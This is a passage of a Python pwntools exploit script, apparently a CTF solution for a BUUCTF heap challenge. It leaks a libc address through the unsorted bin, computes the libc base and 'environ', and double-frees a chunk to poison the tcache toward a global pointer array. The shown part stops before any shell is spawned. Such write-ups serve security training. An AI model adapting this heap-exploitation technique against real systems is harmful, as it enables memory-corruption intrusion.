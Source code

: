 ```python
    io.sendline(str(size))
    io.recvuntil('content?')
    io.send(content)

def dele(ticket):
    io.recvuntil('>> ')
    io.sendline('2')
    io.recvuntil('index ?')
    io.sendline(str(ticket))

def show(ticket):
    io.recvuntil('>> ')
    io.sendline('3')
    io.recvuntil('index ?')
    io.sendline(str(ticket))

elf = ELF('./pwn')
libc = ELF('/mnt/hgfs/CTF/BUUCTF/libc/Ubuntu_18_64/libc-2.27.so')

note = 0x6020c0

# gdb.attach(io)

io.recvuntil('what is your name? ')
io.sendline('sadsadsadsadsadsadsadsadsadsadsadsadsadsadsadsadsadsadsad')

add(0x90, '0000') # 0
add(0x90, '1111') # 1
add(0x90, '2222') # 2
add(0x90, '3333') # 3
add(0x90, '4444') # 4
add(0x90, '5555') # 5
add(0x90, '6666') # 6
add(0x90, '7777') # 7
add(0x60, '8888') # 8
add(0xb0, '9999') # 9

dele(0)
dele(1)
dele(2)
dele(3)
dele(4)
dele(5)
dele(6)

dele(7)

show(7)

unsorted_bins = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
main_area = unsorted_bins - 0x60
libc_base = main_area - 0x3ebc40
environ = libc_base + 0x3ee098

dele(8)
dele(8)

add(0x60, p64(note)) # 10 8
add(0x60, 'bbbb') # 11 8
add(0x60, p64(environ)) # 12 note

show(0)

```
